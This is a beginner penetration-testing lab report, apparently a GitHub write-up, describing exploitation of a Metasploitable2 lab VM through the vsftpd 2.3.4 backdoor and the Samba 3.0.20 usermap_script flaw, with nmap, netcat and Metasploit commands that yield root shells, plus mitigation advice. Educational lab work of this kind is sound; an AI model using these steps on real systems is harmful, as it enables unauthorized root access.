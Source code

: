 # Lab Report: Metasploitable2 — vsftpd & Samba Exploitation

---
- Lab Type: Infrastructure Exploitation  
- Skill Level: Beginner  
- Focus: FTP Misconfigurations, Samba Exploitation, Recon  
---
- Author: Eric Graham
- Date: 07/24/2025
- Target: Metaspliotable2 Samba

---

## Table of Contents
- [Objective](#objective)
- [Lab Setup](#lab-setup)
- [Methodology](#methodology)
- [Reconnaissance](#reconnaissance)
- [Exploitation](#exploitation)
  - [vsftpd 2.3.4 Backdoor](#vsftpd-234-backdoor)
  - [Samba 3.0.20 Exploit](#samba-3020-exploit)
- [Post-Exploitation](#post-exploitation)
- [Mitigations & Recommendations](#mitigations--recommendations)
- [References](#references)

---

## 🎯 Objective

Practice real-world penetration testing by exploiting known vulnerabilities in Metasploitable2, focusing on `vsftpd 2.3.4` and `Samba 3.0.20`.

---

## 🧩 Lab Setup

- **Target:** Metasploitable2 VM  
- **Attacker:** Kali Linux VM  
- **Network:** NAT configuration for full connectivity  
- **Tools:** Nmap, Metasploit, Netcat, smbclient, searchsploit

---

## 📌 Methodology

This lab follows a streamlined version of the **Penetration Testing Execution Standard (PTES)**:

- **Reconnaissance:** Identify live hosts and running services.
- **Enumeration:** Gather detailed version information to pinpoint vulnerabilities.
- **Exploitation:** Use known CVEs and exploits to gain unauthorized access.
- **Post-Exploitation:** Confirm level of access, demonstrate impact, and outline possible next steps.
- **Reporting:** Document proof-of-concept, supporting evidence, and practical remediation advice.

---

## ⚔️ ATT&CK Mapping

Relevant MITRE ATT&CK techniques demonstrated in this lab:

- **T1190 - Exploit Public-Facing Application:** vsftpd 2.3.4 backdoor and Samba 3.0.20 username map script RCE.
- **T1059 - Command and Scripting Interpreter:** Interactive shell access via Netcat and Metasploit.
- **T1078 - Valid Accounts (Conceptual):** Using crafted credentials or misconfigurations to trigger exploitation.

---

## 🔍 Reconnaissance

Metasploitable2 is an intentionally vulnerable Linux VM used to practice common exploitation techniques.

Download links:  
- [Rapid7 Metasploitable2](https://information.rapid7.com/metasploitable-download.html)  
- [SourceForge](https://sourceforge.net/projects/metasploitable/)

---

### 🔎 Nmap Scan

I ran a version scan on common ports:

```bash
nmap -sV -p 21,139,445 <target-ip>
````

**Nmap Results:**

| Port | State | Service      | Version      |
| ---- | ----- | ------------ | ------------ |
| 21   | open  | ftp          | vsftpd 2.3.4 |
| 139  | open  | netbios-ssn  | Samba 3.0.20 |
| 445  | open  | microsoft-ds | Samba 3.0.20 |

![Nmap Scan](/screenshots/metasploitable2/nmap_version_port_scan.png)
*Figure 1: Nmap confirms vsftpd 2.3.4 and Samba 3.0.20 open.*

---

## ⚡ Exploitation

---

### 🗝️ vsftpd 2.3.4 Backdoor Exploit

**About:**
vsftpd 2.3.4 has a malicious backdoor (CVE-2011-2523). Logging in with a username that ends in `:)` opens a hidden shell on port `6200`.

---

**Steps Taken:**

1️⃣ Connect to FTP port:

```bash
nc <target-ip> 21
```

* **Username:** `exploitingYou:)`
* **Password:** `youvebeenhacked`

![vsftpd Trigger](/screenshots/metasploitable2/nc_user_pass_exploit.png)
*Figure 2: Sending special username to trigger the backdoor.*

---

2️⃣ Connect to the hidden backdoor shell on port 6200:

```bash
nc -v <target-ip> 6200
```

3️⃣ Verify root access:

```bash
id
whoami
ls
```

![vsftpd Root Shell](/screenshots/metasploitable2/nc_root_access.png)
*Figure 3: Confirmed root access via backdoor.*

---

### 🗝️ Samba 3.0.20 Exploit (Username Map Script)

**About:**
Samba 3.0.20 has a remote code execution vulnerability (Username Map Script) which allows shell execution.

---

**Steps Taken:**

1️⃣ Started Metasploit:

```bash
msfconsole
```

2️⃣ Ran an SMB version scan to confirm the target version:

```bash
use auxiliary/scanner/smb/smb_version
set RHOSTS <target-ip>
run
```

![SMB Version Scan](/screenshots/metasploitable2/msf_smb_version.png)
*Figure 4: Scanner confirms Samba 3.0.20.*

---

3️⃣ Found an exploit using `searchsploit`:

```bash
searchsploit samba 3.0.20
```

Identified `Username Map Script` exploit.

![Searchsploit Result](/screenshots/metasploitable2/searchsploit_samba_version.png)
*Figure 5: `searchsploit` output.*

---

4️⃣ Loaded the exploit module:

```bash
use exploit/multi/samba/usermap_script
set RHOSTS <target-ip>
exploit
```

5️⃣ Verified shell access:

```bash
whoami
ls
```

![Samba Exploit Shell](/screenshots/metasploitable2/msf_usermap_script_root.png)
*Figure 6: Shell confirmed with root privileges.*

---

## 🔓 Post-Exploitation

After gaining root-level shells on both services:

* Verified privileges (`whoami`, `id`).
* Listed files and directories.
* Confirmed ability to run arbitrary commands.
* Would pivot to enumerate users, check `/etc/passwd`, search for sensitive configs (`*.conf`), and test lateral movement if this were a real engagement.

---

## Mitigations & Recommendations

* **vsftpd:** Remove version 2.3.4 and install the latest trusted release.
* **Samba:** Patch to a secure version; disable unnecessary Samba shares.
* Enforce least privilege for services.
* Use firewalls to limit service exposure.
* Monitor network traffic for unusual ports and connections.

---

## 📚 References

* [Metasploitable2](https://sourceforge.net/projects/metasploitable/)
* [vsftpd 2.3.4 Backdoor (CVE-2011-2523)](https://www.cvedetails.com/cve/CVE-2011-2523/)
* [Metasploit Samba Exploit](https://www.rapid7.com/db/modules/exploit/multi/samba/usermap_script/)

---

~ Eric Graham

